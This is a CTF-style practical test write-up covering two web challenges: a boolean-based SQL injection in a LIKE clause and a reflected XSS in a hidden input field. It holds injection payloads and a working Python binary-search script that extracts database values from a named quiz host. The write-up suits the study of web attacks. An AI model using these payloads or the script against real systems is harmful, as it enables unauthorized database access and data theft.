

# Practical Test ACS EDU

#### First challenge: SQL injection in the LIKE clause

This challenge is a program that lets users search for posts and view them.

`notice.php?pageIndex=1&keyword=nglong05` is the query being used. After reconnaissance, trying payloads and observing the responses, we can infer the backend likely runs a query like:

```sql
SELECT id 
FROM posts 
WHERE 1=1 AND title LIKE '%nglong05%' 
ORDER BY id DESC 
LIMIT 1 OFFSET 0;
```

The reason is: when we inject `%'and+(1)+and+'1%'='1` into the `keyword` parameter, the program returns all posts, meaning the logic is always true (`AND (1)`). But if we change the payload to `%'and+(0)+and+'1%'='1`, the program returns no posts. From this we can perform a boolean-based SQL injection here.

Next we do recon to verify which database we’re working with. From the response headers:

- Server: Apache/2.4.17 (Win64) PHP/7.0.1

- X-Powered-By: PHP/7.0.1

It’s very likely MySQL, because Apache + PHP (Windows) running on WAMP/XAMPP/MAMP/etc. typically comes with MySQL (or modern MariaDB). We can still confirm precisely using probes like:

| Database   | Payload            |
| ---------- | ------------------ |
| MySQL      | `database()`       |
| PostgreSQL | `pg_sleep(3)`      |
| MSSQL      | `DB_NAME()`        |
| Oracle     | `ROWNUM=1`         |
| SQLite     | `sqlite_version()` |

Testing confirms the backend is using **MySQL**.

Next, we dump table and column names.

We can count how many tables are in the DB with:

`(SELECT count(*) FROM information_schema.tables WHERE table_schema = database()) = 7`

Then we retrieve table names like this:

```sql
SELECT ASCII(SUBSTRING(
(SELECT table_name
FROM information_schema.tables
WHERE table_schema = database()
LIMIT N,1), P, 1)
)) > X
```

We write a Python script that uses the payload above with binary search

```python
import requests

url = "http://quiz.sas.ne.kr/exam5/notice.php"

def send(table_idx, position, value):
    logic = f"SELECT ASCII(SUBSTRING(user(),{position},1))>{value}"
    payload = f"%' AND ({logic}) AND '1%'='1"
    r = requests.get(url, params={"keyword": payload})
    print(r.status_code)
    return "등록된 게시물이 없습니다." not in r.text

def get_char(table_idx, position, lo=32, hi=126):
    low, high = lo, hi
    while low <= high:
        mid = (low + high) // 2
        if send(table_idx, position, mid):
            # print("true")
            low = mid + 1
        else:
            # print("false")
            high = mid - 1
    if high < lo:
        return None
    print(chr(low))
    return chr(low)

def get_table_name(table_idx, max_len=64):
    result = []
    for pos in range(1, max_len + 1):
        c = get_char(table_idx, pos)
        if c is None:
            break
        result.append(c)
    return "".join(result)

if __name__ == "__main__":
    for idx in range(5):
        print(get_table_name(idx))
```

The results show 7 tables:

`python3 s.py access_log answer comm_file comm_mdi_file member notice zipcode`

This validates the vulnerability. The goal is to read `user()`. We modify the payload as follows to obtain the result:

```python
def send(table_idx, position, value):
    logic = f"SELECT ASCII(SUBSTRING(user(),{position},1))>{value}"
    payload = f"%' AND ({logic}) AND '1%'='1"
    r = requests.get(url, params={"keyword": payload})
    print(r.status_code)
    return "등록된 게시물이 없습니다." not in r.text
```

The returned result is: `infos@localhost`

#### Second challenge: reflected XSS

The target application was `notice.php`, which takes several query parameters, including `pageIndex`. Our objective was to test if unsanitized user input could break out of the HTML context and execute JavaScript in the browser.

I started by sending requests with different payloads to see where the reflection occurred. Example request:

```
GET /exam16/notice.php?pageIndex=12345 HTTP/1.1
Host: quiz.sas.ne.kr
```

Looking at the response, I observed that the value of `pageIndex` was being inserted directly into a hidden input field in the returned HTML:

```html
<input type="hidden" id="pageIndex" name="pageIndex" value="12345" />
```

To test if the input is sanitized, I injected a simple payload:

```
GET /exam16/notice.php?pageIndex=1"> HTTP/1.1
Host: quiz.sas.ne.kr
```

In the response, the injected code appeared inside the DOM:

```html
<input type="hidden" id="pageIndex" name="pageIndex" value="1">
" />
```

Here, the payload successfully broke out of the `value` attribute by closing it with `">`. The rest of the string created a new `` tag with an invalid source, which immediately triggered the `onerror` event handler.


